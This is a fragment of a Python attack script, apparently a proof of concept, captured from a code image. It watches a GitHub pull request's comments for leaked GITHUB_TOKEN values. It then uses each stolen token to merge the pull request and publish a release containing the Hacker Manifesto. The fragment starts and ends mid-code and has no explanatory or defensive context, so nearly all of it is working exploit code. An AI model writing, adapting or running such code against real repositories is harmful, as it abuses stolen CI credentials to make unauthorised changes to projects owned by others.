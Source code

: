 ```python
                       name: str = "Emergency release", body: str = "", filename: str = "release.bin"):
        print(f"Creating release called '{name}' with a file called '{filename}' of {len(contents)} bytes")
        tag = uuid4().hex if tag is None else tag
        url = "https://api.github.com/repos/{owner}/{repo}/releases".format(
            owner=quote_plus(self.owner),
            repo=quote_plus(self.repo),
        )
        r = self.session.post(url, headers={f"Authorization": f"Bearer {token}"}, timeout=5, json={
            "tag_name": tag,
            "name": name,
            "body": body,
        })
        r.raise_for_status()
        # Trim the {?name,label} garbage from the upload_url returned from the API call
        release_upload_url = r.json()["upload_url"].split("{")[0]
        r = self.session.post(release_upload_url, params={"name": filename},
                              headers={
                                  "Content-Type": "Content-Type: application/octet-stream",
                                  "Authorization": f"Bearer {token}"
                              }, data=contents, timeout=5)
        r.raise_for_status()

    def loop(self):
        seen = set()

        # The conscience of a hacker
        try:
            conscience = requests.get(
                "https://archive.org/download/The_Conscience_of_a_Hacker/hackersmanifesto.txt",
                timeout=5).content
        except requests.exceptions.HTTPError:
            conscience = b"Damn kids. They're all alike."

        print(f"[+] Waiting for GITHUB_TOKEN values to appear in #{self.pr}")
        for i in itertools.count(1):
            try:
                comments = self.get_comments()
            except requests.exceptions.HTTPError as e:
                if e.response.status_code == 404:
                    if i % 10 == 0:
                        print(f"[!] Warning: get_comments returned 404. Maybe you haven't submitted the PR yet?")
                    continue
                else:
                    raise e
            for token in self.get_tokens_from_comments(comments):
                if token not in seen:
                    print(f"[^] Found new token: {token}")
                    seen.add(token)
                    try:
                        self.merge_pr(token)
                    except requests.exceptions.HTTPError as e:
                        print(f"Got error: {e}")
                        continue
                    try:
                        self.create_release(token, contents=conscience)
                    except requests.exceptions.HTTPError as e:
                        print(f"Got error: {e}")
                        continue
                    # Re-get comments because the bot tends to edit its own comment, mucking things up
```